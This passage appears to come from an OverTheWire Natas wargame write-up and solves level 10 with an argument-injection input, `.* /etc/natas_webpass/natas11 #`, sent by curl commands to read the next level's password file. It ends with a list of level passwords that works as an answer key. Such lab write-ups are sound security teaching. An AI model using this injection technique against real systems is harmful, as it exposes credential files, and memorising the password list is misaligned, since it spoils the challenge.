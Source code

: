 They now **filtered** special characters `;`, `|`, `&`  

I'm solving this level using browser input form &rarr; input `.* /etc/natas_webpass/natas11 #`

```bash
curl --silent --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu --data "needle=.*+%2Fetc%2Fnatas_webpass%2Fnatas11+%23&submit=Submit+Query" http://natas10.natas.labs.overthewire.org
```

or  

```bash
curl --silent --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/?needle=.*+%2Fetc%2Fnatas_webpass%2Fnatas11+%23&submit=Search
```



## tldr; solution

natas0  - `natas0`  
natas1  - `gtVrDuiDfck831PqWsLEZy5gyDz1clto`  
natas2  - `ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi`  
natas3  - `sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`  
natas4  - `Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`  
natas5  - `iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`  
natas6  - `aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`    
natas7  - `7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`  
natas8  - `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`    
natas9  - `W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`  
natas10 - `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`  
natas11 - `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`   
